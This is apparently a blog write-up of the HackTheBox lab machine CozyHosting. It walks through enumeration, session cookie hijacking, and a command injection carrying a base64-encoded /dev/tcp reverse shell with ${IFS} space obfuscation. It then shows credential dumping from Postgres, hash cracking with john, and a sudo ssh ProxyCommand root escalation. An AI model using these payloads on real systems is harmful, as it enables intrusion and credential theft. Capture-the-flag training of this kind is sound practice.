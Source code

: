 ```yaml
---
layout: page
title:  "CozyHosting"
date:   2025-07-10 12:05:57 -0400
categories: jekyll update
---
```


# CozyHosting

HackTheBox: Easy

> Cozyhosting is an Ubuntu system when you can practices technique as cookie hijacking, reverse shells, password hashing.
> 

## 1: Enumeration

- Check the active connection

![Untitled]({{ '/assets/images/cozyhosting/Untitled.png' | relative_url }})

- Scanning ports

![Untitled](/assets/images/cozyhosting/Untitled%201.png)

We can see there’s a web services running in 80 port and ssh service in 22 port it could be a way to get in later.

- Dirsearch looking for enable directories

![Untitled](/assets/images/cozyhosting/Untitled%202.png)

Something interesting in /actuator/sessions

## 2: Looking around

- There is a possible cookie hijacking vulnerability.

![Untitled](/assets/images/cozyhosting/Untitled%203.png)

- We can use BurpSuite

![Untitled](/assets/images/cozyhosting/Untitled%204.png)

- We simulate the log in process and inject the cookie, we change it at the right side bar

![Untitled](/assets/images/cozyhosting/Untitled%205.png)

![Untitled](/assets/images/cozyhosting/Untitled%206.png)

## 3: User flag

- It executes commands, so get can make a rev shell to get access

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

${IFS%??} For blank spaces and convert it to url format

- We use nc to receive the connection and make the shell stable like this

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

We use cat etc/passwd for user

- We’ve got and .jar with db credentials, using python

```bash
python3 -m http.server 7777
```

```bash
wget http://10.10.00.000:7777/<file_name>
```

- Look for creds:

![Untitled](/assets/images/cozyhosting/Untitled%207.png)

```bash
psql -h 127.0.0.1 -U postgres
```

```bash
\c cozyhosting
```

```bash
\d
select * from users;
```

We got the hash for admin, we solve using

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We use ssh to break into

```bash
ssh josh@10.10.11.230
```

## 4: Priv esc

- Using sudo -l

![Untitled](/assets/images/cozyhosting/Untitled%208.png)

- In [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo) We find a way to get root access easily

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Untitled](/assets/images/cozyhosting/Untitled%209.png)

- Machine pwned
![Untitled](/assets/images/cozyhosting/Untitled%2010.png)
